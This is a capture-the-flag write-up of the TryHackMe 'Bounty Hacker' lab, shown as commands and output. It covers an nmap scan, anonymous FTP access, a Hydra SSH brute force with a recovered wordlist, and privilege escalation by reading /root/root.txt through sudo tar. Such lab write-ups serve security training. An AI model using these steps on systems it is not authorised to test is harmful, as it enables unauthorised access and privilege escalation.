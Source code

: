 # Bounty Hacker
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 

Compromise the machine and read the user.txt and root.txt.

Tags
--
* FTP Anonymous Login
* Brute Forcing
* Sudoers file

Tools used
--
* nmap
* ftp
* hydra
* ssh
* /bin/tar

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.163.191
* Other information must be gathered during the attack

Phase 1: Enumeration
--
```
sudo nmap -sS -sC -sV 10.10.163.191 -p- -T5 -vvv

<SNIP>
Initiating SYN Stealth Scan at 23:29
Scanning 10.10.163.191 [65535 ports]
Discovered open port 22/tcp on 10.10.163.191
Discovered open port 21/tcp on 10.10.163.191
Discovered open port 80/tcp on 10.10.163.191
<SNIP>
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.98.39
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
<SNIP>
```
We see a FTP server we can access by anonymous login:
```
ftp -n 10.10.163.191
Connected to 10.10.163.191.
220 (vsFTPd 3.0.3)
ftp> user anonymous
230 Login successful.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
ftp> get task.txt
```
Let's read these two files:
```
cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
and
```
cat locks.txt 
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
Phase 2: Foothold
--

Try to bruteforce `lin` username with `locks.txt` file for SSH by Hydra:
```
hydra -l lin -P locks.txt 10.10.163.191 ssh -I

<SNIP>
[DATA] attacking ssh://10.10.163.191:22/
[22][ssh] host: 10.10.163.191   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
<SNIP>
```
Then:
```
ssh 10.10.163.191 -l lin
<RedDr4gonSynd1cat3>
```
Here, you can get quickly the user flag.

Phase 3: Privilege Escalation
--
Run:
```
sudo -l

Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
At this point, I can use `tar` for zipping `/root/root.txt` and saving it in `lin` home folder, so we can access to it:
```
sudo /bin/tar -cf /home/lin/root.tar /root/root.txt 
```
From `lin` home folder, run:
```
tar -xvf root.tar
cat root/root.txt
```
You will get the root flag.